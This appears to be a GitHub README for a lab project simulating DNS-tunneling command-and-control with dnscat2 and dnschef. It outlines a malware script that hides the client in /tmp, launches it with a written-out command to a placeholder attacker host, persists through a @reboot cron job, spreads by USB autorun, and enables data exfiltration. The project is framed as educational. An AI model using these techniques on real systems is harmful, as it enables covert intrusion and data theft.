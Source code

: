 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain (e.g., *.tunnel.local) to the attacker's IP, enabling covert C2 communication.
  
  ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)

  -Domain Used: tunnel.local (custom pseudo-domain)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
- `/malware`: 🐛 Malware Creation and Deployment
  ### A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 #### 🔒 Stealthy Deployment
- Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
- Sets execution permissions for silent execution
 #### 🌐 C2 Initialization
- Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
- Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
 -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ###💾 Infection Method:
 -Delivered via USB drive
- `/dnscat2`: Config files and notes on the client/server interaction
- `/Autorun`:
- `/data_exfiltration`: Sample files used in exfiltration
- `/screenshots`: Execution flow screenshots

## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby payload connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.
